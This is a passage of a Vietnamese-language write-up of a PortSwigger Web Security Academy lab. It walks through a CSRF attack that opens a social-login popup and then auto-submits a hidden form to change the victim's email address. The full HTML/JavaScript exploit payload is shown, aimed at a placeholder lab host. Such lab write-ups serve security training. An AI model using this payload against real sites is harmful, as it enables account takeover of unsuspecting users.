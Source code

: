 Store và View exploit. Quan sát thấy request ban đầu bị chặn bởi browser's popup blocker:

![img](https://imgur.com/lwg6oxj.png)

Có thể thấy popup đang bị chặn vì chưa tương tác gì với page.

Điều chỉnh payload để khiến nạn nhân click vào page và chỉ mở popup khi user đã click: 

    <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="pwned@portswigger.net">
    </form>
    <p>Click anywhere on the page</p>
    <script>
        window.onclick = () => {
            window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
            setTimeout(changeEmail, 5000);
        }

        function changeEmail() {
            document.forms[0].submit();
        }
    </script>

![img](https://imgur.com/7fYjJz2.png)

![img](https://imgur.com/Xa2Jg4E.png)

Popup mới hiển thị: 

![img](https://imgur.com/z1gFxSi.png)

![img](https://imgur.com/V78cNvo.png)

Email được thay đổi: 

![img](https://imgur.com/5Q22Nt9.png)

Thay đổi 1 email khác trong payload và Deliver exploit to victim. 

Solved the lab!

![img](https://imgur.com/NPbqWjP.png)